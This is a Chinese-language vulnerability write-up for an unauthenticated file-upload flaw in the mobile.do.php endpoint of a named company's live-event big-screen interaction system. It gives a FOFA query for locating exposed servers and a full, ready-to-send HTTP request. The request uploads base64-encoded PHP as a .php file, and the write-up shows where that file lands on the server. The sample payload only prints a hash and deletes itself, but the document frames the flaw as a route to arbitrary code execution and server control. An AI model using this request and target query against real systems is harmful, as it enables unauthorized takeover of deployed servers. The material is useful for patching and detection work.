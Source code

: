 # 金华迪加网络科技有限公司现场大屏互动系统mobile.do.php接口存在文件上传漏洞

# 一、漏洞简介
金华迪加网络科技有限公司是一家民营企业，专注于开发和优化现场互动系统平台,其主要产品是现场活动大屏幕系统。这个系统被设计用于增强活动现场的互动性，提供技术支持给合作企业。金华迪加网络科技有限公司现场大屏互动系统mobile.do.php接口存在文件上传漏洞，未经身份验证的攻击者通过漏洞上传恶意后门文件，执行任意代码，从而获取到服务器权限。

# 二、影响版本
+ 现场大屏互动系统

# 三、资产测绘
+ fofa`body="/wall/themes/meepo/assets/images/defaultbg.jpg"||title="现场活动大屏幕系统"`
+ 特征

![1730269921021-87848d90-a4b8-45ad-a45f-50ab8325acda.png](./img/pq8x-rL1g-iCOQR9/1730269921021-87848d90-a4b8-45ad-a45f-50ab8325acda-824803.png)

# 三、漏洞复现
```plain
POST /mobile/mobile.do.php?action=msg_uploadimg HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Cookie: PHPSESSID=b8u1t0sl69oh62hn91t3tb61a2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

filetype=php&imgbase64=PD9waHAgZWNobyBtZDUoMSk7dW5saW5rKF9fRklMRV9fKTsgPz4=
```

![1730269929978-dad97914-e3b0-4c81-b804-9777de2383ea.png](./img/pq8x-rL1g-iCOQR9/1730269929978-dad97914-e3b0-4c81-b804-9777de2383ea-285779.png)

```plain
/data/pic/pic_173026980616947.php
```

![1730269949318-34320c82-8bd3-454c-9e09-23af98caed79.png](./img/pq8x-rL1g-iCOQR9/1730269949318-34320c82-8bd3-454c-9e09-23af98caed79-931197.png)



> 更新: 2024-11-27 10:00:08  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ooo15ulb6mttxdqb>